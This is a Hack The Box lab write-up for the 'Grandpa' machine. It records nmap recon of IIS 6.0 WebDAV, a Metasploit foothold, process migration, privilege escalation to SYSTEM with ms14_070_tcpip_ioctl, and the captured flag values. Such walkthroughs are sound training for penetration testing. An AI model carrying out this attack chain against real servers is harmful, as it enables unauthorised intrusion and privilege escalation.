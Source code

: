 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Grandpa
tags: ["metasploit"]
---
```

**Start 12:56 14-08-2024**

---
```
10.10.10.14
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.14                        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 11:56 IST
Nmap scan report for 10.10.10.14
Host is up (0.016s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 4.26 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -T5 -p- 10.10.10.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 11:56 IST
Nmap scan report for 10.10.10.14
Host is up (0.016s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Wed, 14 Aug 2024 10:58:28 GMT
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.54 seconds
```

For this version of `Microsoft IIS httpd 6.0` we've found an exploit:

![](../../../assets/7df83f956ca3caa131881cd46b663fbb.png)

## Metasploit

There's a `metasploit` module for it:

![](../../../assets/91b9a6f7b8dde3529513f37d1f9921e1.png)

Configure the options and just run the exploit.

After getting the shell we can `systeminfo` the target:

```powershell
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 17 Minutes, 15 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 762 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,299 MB
Page File: In Use:         171 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A

c:\windows\system32\inetsrv>
```

We can now use `metasploit` to look up vulnerabilities for this version, it's called `local_exploit_suggester`.

Configure it to your current session, and then run the exploit afterwards.

![](../../../assets/e1023f7de49977daa0aa73a56ae9250d.png)

From these it appears that `exploit/windows/local/ms14_070_tcpip_ioctl` is most interesting to us.
Let's use it and set up the options. First we'll have to migrate to a process running under `NT AUTHORITY\NETWORK SERVICE` which we can find using `ps` in `meterpreter`.

![](../../../assets/72564c4ea1d5b1d3b8fd1980fa8b2c8e.png)

We'll migrate to `3796`.

```bash
meterpreter > migrate 3796
[*] Migrating from 3848 to 3796...
[*] Migration completed successfully.
meterpreter > 
```

Now we can use the `ms14_070_tcpip_ioctl` exploit.

![](../../../assets/a5536e100dd5bda3634653e5dbc9de8c.png)

```bash
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

Great, now we can get those flags.

### user.txt
go into `Documents and settings` and from here we can get both flags:
![](../../../assets/51488557edce1ea888330a345dba4a6a.png)

Since I had trouble accessing the files via the `shell` I instead opted for the `meterpreter session`:

```bash
# Failed attempts
C:\>cd "Documents and Settings"
cd "Documents and Settings"

C:\Documents and Settings>cd Administrator
cd Administrator
Access is denied.
```

```bash
meterpreter > cat "C:\Documents and Settings\Harry\Desktop\user.txt"
bdff5ec67c3cff017f2bedc146a5d869
```

### root.txt
Same for the `root flag`:

```bash
meterpreter > cat "C:\Documents and Settings\Administrator\Desktop\root.txt"
9359e905a2c35f861f6a57cecf28bb7b
```


![](../../../assets/6d5c1b6c23e49c85e2617d603d2257fa.png)


---

**Finished 14:05 14-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
